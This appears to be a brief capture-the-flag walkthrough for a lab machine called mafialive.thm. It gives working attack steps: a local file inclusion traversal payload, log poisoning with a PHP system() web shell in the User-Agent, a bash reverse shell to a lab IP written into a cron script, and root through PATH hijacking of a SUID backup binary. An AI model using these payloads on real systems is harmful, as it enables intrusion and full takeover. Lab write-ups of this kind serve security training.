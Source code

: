 start with nmap

http


found : mafialive.thm --> added in /etc/hosts

email found : support@mafialive.thm

mafialive.thm --> underdevelopement

/robots.txt --> test.php

http://mafialive.thm/test.php?view=/var/www/html/development_testing/robots.txt

we can enumeration /developement_testing only. outside this directory we not allowed directory listing.

fuzz other endpoint than `view`


payload worked : http://mafialive.thm/test.php?view=/var/www/html/development_testing/..///////..///////..///////..///////etc/passwd


get shell by posing

`curl http://mafialive.thm -A "<?php system(\$_GET['cmd']);?>"`

then `http://mafialive.thm/test.php?view=/var/www/html/developement_testing/..///////..///////..///////..////////var/log//apache2/access.log&cmd=id`

in response we get

got shell.

cronjob found for archanjal:

`*/1 *   * * *   archangel /opt/helloworld.sh`

we can write this file.
add bash rev shell to file and get sheel as arcahngel.

`bash -i >& /dev/tcp/10.8.133.3/1337 0>&1`

in `~/secret` we found a executable `backup`

suid bit is set so we can run it as user.

run it. it uses cp without the full path.

create cp with "/bin/bash" . give execute permission. add export path with cp direcotry.
run backup get root shell.